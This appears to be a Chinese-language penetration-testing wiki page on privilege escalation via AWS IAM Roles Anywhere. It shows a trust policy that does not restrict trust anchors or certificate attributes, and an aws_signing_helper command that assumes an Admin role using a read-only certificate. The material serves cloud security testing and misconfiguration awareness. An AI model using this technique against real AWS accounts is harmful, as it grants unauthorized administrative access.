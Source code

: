 # AWS - IAM Roles Anywhere Privesc

{{#include ../../../../banners/hacktricks-training.md}}

AWS IAM RolesAnywhere 允许 AWS 以外的工作负载使用 X.509 证书承担 IAM 角色。但是，当信任策略没有正确限制时，它们可能会被滥用以进行权限提升。

此策略缺乏对允许的信任锚或证书属性的限制。因此，任何与账户中的任何信任锚相关的证书都可以用来承担此角色。
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Service": "rolesanywhere.amazonaws.com"
},
"Action": [
"sts:AssumeRole",
"sts:SetSourceIdentity",
"sts:TagSession"
]
}
]
}

```
要进行权限提升，`aws_signing_helper` 是必需的，来自 https://docs.aws.amazon.com/rolesanywhere/latest/userguide/credential-helper.html

然后，使用有效的证书，攻击者可以转向更高权限的角色。
```bash
aws_signing_helper credential-process \
--certificate readonly.pem \
--private-key readonly.key \
--trust-anchor-arn arn:aws:rolesanywhere:us-east-1:123456789012:trust-anchor/ta-id \
--profile-arn arn:aws:rolesanywhere:us-east-1:123456789012:profile/default \
--role-arn arn:aws:iam::123456789012:role/Admin
```
### 参考

- https://www.ruse.tech/blogs/aws-roles-anywhere-privilege-escalation/

{{#include ../../../../banners/hacktricks-training.md}}
